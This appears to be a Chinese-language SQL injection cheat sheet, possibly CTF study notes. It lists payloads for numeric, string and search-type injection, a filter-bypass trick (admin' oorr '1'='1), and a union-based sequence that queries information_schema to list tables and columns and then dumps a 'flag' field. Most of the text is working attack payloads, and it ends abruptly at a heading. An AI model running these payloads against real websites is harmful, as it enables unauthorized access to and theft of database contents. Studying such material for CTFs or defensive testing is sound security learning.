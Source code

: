1.数字型: id=1 and 1=2，id= 3-2; id=0!=1 ，id=1 in(1,2)..   # 3-2返回结果是1的数据
    可用符号: +,-,*,/,<,>,<=,=>,!等
    关键字: like， and，or， in ，between等
    语句通常为: SELECT 列FROM表WHERE数字型列=值
2.字符型: id= 1' and '1'='2， id=1'!=1 %23， id=1'!=1--+...      # %20或+ 表示空格, url编码 即 --+ -> --空格
    可用符号与关键字与数字型相同，区别在于需要将引号闭合
    语句通常为: SELECT 列FROM表WHERE字符型列='值  ’
    id='1'
    id='1' union select 1,2,'3'
          payload: 1' union select 1,2,'3
3.搜索型: id =1%' and 1=1--+...
    区别在于搜索类型常使用%，需要从返回结果中判断
    语句通常为: SELECT * FROM表WHERE where被搜索的列like ' %值%'

常见问题
只能 from table_name 不能  from 'tname', "tname"

## 常见方式
### 双写绕过 admin' oorr '1'='1

    admin' oorr '1'='1
### 0x1 SQL 整数型注入 2341 union select database(),2
https://blog.csdn.net/weixin_44732566/article/details/104340658

默认sql: select * form news where id=?

0.查数据库

payload:`2343 union select database(),2`

    返回sqli
    id=2343在数据库中是不存在的，所有返回NULL，因为前端页面只有ID，Data两处地方可以回显数据
    这样union select查询的数据就可以回显了

#### information_schema三步

1.查表名

    select * from news where id=2343 union select group_concat(table_name),3 from information_schema.tables where table_schema='sqli'
    返回flag

2.查字段名
    
    select * from news where id=2343 union select group_concat(column_name),3 from information_schema.columns where table_name='flag'
    返回字段flag

3.查数据

    select * from news where id=2343 union select flag,3 from sqli
    select * from news where id=2343 union select group_concat(flag),3 from sqli
    返回目标值

一、常用函数
